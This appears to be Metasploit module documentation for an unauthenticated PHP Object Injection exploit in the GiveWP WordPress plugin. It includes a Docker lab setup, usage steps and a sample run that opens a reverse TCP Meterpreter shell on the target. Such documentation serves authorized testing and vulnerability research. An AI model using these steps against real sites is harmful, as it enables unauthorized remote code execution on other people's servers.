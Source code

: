 ## Vulnerable Application

This Metasploit module exploits an unauthenticated PHP Object Injection vulnerability in the
GiveWP plugin for WordPress (versions <= 3.14.1).
The vulnerability is present in the 'give_title' parameter, allowing attackers to inject a crafted
PHP object that can lead to remote code execution (RCE) when combined with a suitable POP chain.

## Setup

1. **Docker Compose Setup**: Use the following `docker-compose.yml` file to set up a vulnerable WordPress environment.

```yaml
services:
  db:
    image: mysql:8.0.27
    command: '--default-authentication-plugin=mysql_native_password'
    restart: always
    environment:
      - MYSQL_ROOT_PASSWORD=somewordpress
      - MYSQL_DATABASE=wordpress
      - MYSQL_USER=wordpress
      - MYSQL_PASSWORD=wordpress
    expose:
      - 3306
      - 33060

  wordpress:
    image: wordpress:6.3.2
    ports:
      - "80:80"
    restart: always
    environment:
      - WORDPRESS_DB_HOST=db
      - WORDPRESS_DB_USER=wordpress
      - WORDPRESS_DB_PASSWORD=wordpress
      - WORDPRESS_DB_NAME=wordpress
volumes:
  db_data:
```

2. **Download and Install Vulnerable GiveWP Plugin**:
- Download the plugin: [GiveWP 3.14.1](https://downloads.wordpress.org/plugin/give.3.14.1.zip)
- Unzip the plugin and copy it to the Docker container:
```bash
docker cp give docker-wordpress-1:/var/www/html/wp-content/plugins
```
- Access the WordPress instance at `http://localhost` and activate the GiveWP plugin via the admin dashboard.

3. **Create a Donation Form**:
  - Navigate to the "Forms" section within the GiveWP plugin and click on "Add Form."
  - Select the Legacy Form option, as this is the one confirmed to work with the exploit.
  - Configure the form as needed, publish it.

## Options

No specific options need to be configured.

## Verification Steps

1. Start `msfconsole`.
2. Use the module with `use exploit/multi/http/wp_givewp_rce`.
3. Set `RHOSTS`, `RPORT`, and the necessary WordPress-specific options.
4. Run the exploit.
5. Gain a Meterpreter session.

## Scenarios

### GiveWP Plugin version: 3.14.1 (Dockerized WordPress Version 6.3.2)

Using `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```bash
msf6 exploit(multi/http/wp_givewp_rce) > run http://127.0.0.1:8888

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.3.2
[+] Detected GiveWP Plugin version: 3.14.1
[+] The target appears to be vulnerable.
[+] Successfully connected to the GiveWP API.
[*] Analyzing Form ID: 13
[+] Form ID: 13 has required fields.
[*] Analyzing Form ID: 10
[-] Form ID: 10 does not contain all required fields.
[*] Analyzing Form ID: 8
[-] Form ID: 8 does not contain all required fields.
[*] Sending exploit payload...
[*] Sending stage (3045380 bytes) to 172.24.0.3
[*] Meterpreter session 60 opened (192.168.1.36:4444 -> 172.24.0.3:59102) at 2024-08-27 19:24:44 +0200

meterpreter > sysinfo 
Computer     : 172.24.0.3
OS           : Debian 11.8 (Linux 5.15.0-119-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Notes:
- The exploitation is successful only against legacy donation forms within GiveWP.
Be sure to configure and test legacy forms to verify the vulnerability effectively.
